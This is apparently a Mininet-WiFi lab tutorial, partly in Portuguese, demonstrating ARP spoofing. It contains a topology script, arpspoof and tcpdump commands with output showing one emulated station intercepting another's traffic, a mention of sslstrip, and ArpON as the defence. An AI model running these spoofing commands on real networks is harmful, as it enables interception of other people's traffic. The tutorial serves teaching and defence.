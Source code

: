 ```yaml
---
tags: security-tutorials
---
```


# ARP Spoofing

**In this short demo you will:** 
- How to perform ARP Spoofing attack

**Requirements:** 
- Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
- dsniff
- arpon


First of all you need to identify the network topology that will be generated by the code below:

```python=
#!/usr/bin/python

'''@author: Ramon Fontes
   @email: ramon.fontes@imd.ufrn.br'''

from mininet.log import setLogLevel, info
from mn_wifi.node import OVSKernelAP
from mn_wifi.link import wmediumd
from mn_wifi.cli import CLI
from mn_wifi.net import Mininet_wifi


def topology():
    "Create a network."
    net = Mininet_wifi()

    info("*** Creating nodes\n")
    ap1 = net.addAccessPoint('ap1', ssid='new-ssid', mode='g',
                             channel='1', position='10,10,0',
                             failMode="standalone")
    net.addStation('sta1', position='10,20,0')
    net.addStation('sta2', position='10,30,0')

    info("*** Configuring wifi nodes\n")
    net.configureWifiNodes()

    info("*** Starting network\n")
    net.build()
    net.addNAT().configDefault()
    ap1.start([])
    
    sta2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

    info("*** Running CLI\n")
    CLI(net)

    info("*** Stopping network\n")
    net.stop()


if __name__ == '__main__':
    setLogLevel('info')
    topology()
```


Neste tutorial, vamos simular os passos ilustrados na figura de forma a mostrar na prática como ocorre o ataque de ARP Spoofing. Para tanto, vamos considerar executar o script acima. Considerando que o nome do arquivo seja `arp.py` nós o executaríamos da seguinte forma:

```
sudo python arp.py
```

Em seguida, faremos uma tentativa de ping a partir de `sta1` para o endereço 8.8.8.8.

```
mininet-wifi> sta1 ping -c1 8.8.8.8

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms
--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms
```


Como é possível perceber o ping foi realizado com sucesso. Agora, vamos verificar a tabela ARP de `sta1`. Na tabela deverá constar o endereço IP e também o endereço MAC do gateway padrão de `sta1`.

```
mininet-wifi> sta1 arp -a
_gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0
```

Então, vamos simular o ataque de ARP Spoofing e fazer com que `sta1` entenda que o seu gateway na verdade é `sta2`. Primeiro, abra 2 (dois) terminais para `sta2`.

```
mininet-wifi> xterm sta2 sta2
```

Então, no terminal de `sta2` execute o arpspoof, conforme abaixo.

```
sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3
```

O comando acima induz 10.0.0.1, que é a vítima, a entender que 10.0.0.2, ou seja, `sta2`, representa o endereço do gateway padrão. Então, após alguns segundos verificamos novamente a tabela ARP de `sta1`.

```
mininet-wifi> sta1 arp -a
_gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0
```

Aqui, já podemos notar que o endereço MAC do gateway padrão já não é mais o mesmo do identificado anteriormente. Agora, realizamos um novo ping de `sta1` para o endereço público 8.8.8.8, ao mesmo tempo em que utilizamos o tcpdump no outro terminal de `sta2` para verificar se ele está recebendo tráfego enviado pela vítima.

```
sta2# tcpdump -i sta2-wlan0
20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 8, length 64
20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 9, length 64
20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64
```

```
mininet-wifi> sta1 ping -c10 8.8.8.8
```

Após alguns pacotes enviados por `sta1` é possível notar que `sta2` passou a receber os pacotes enviados por ele, pois `sta1` passou a entender que `sta2` seria o verdadeiro gateway padrão. A partir deste momento, `sta2`, o atacante, pode inclusive utilizar de simples ferramentas como sslstrip para realizar ataques em cima do protocolo HTTPS (Hyper Text Transfer Protocol Secure). Vale a pena citar também que esse tipo de ataque pode ser evitado com o uso de ferramentas como ARP handler inspection (ArpON).


Para ver como evitar esse tipo de ataque você pode utilizar o arpon. Para tanto, basta executá-lo em `sta1` antes do ataque ser realizado.


```
mininet-wifi> xterm sta1
arpon -D -i sta1-wlan0
```

Caso houver um ataque em execução será possível observá-lo após executar o arpon, conforme ilustrado abaixo:


```
arpon -D -i sta1-wlan0
Oct 30 10:01:41 [INFO] Start DARPI on sta1-wlan0
Oct 30 10:01:41 [INFO] CLEAN, 10.0.0.3 was at 52:1e:e8:62:58:11 on sta1-wlan0
Oct 30 10:01:53 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
Oct 30 10:01:53 [INFO] ALLOW, 10.0.0.3 is at 52:1e:e8:62:58:11 on sta1-wlan0
Oct 30 10:01:55 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
```
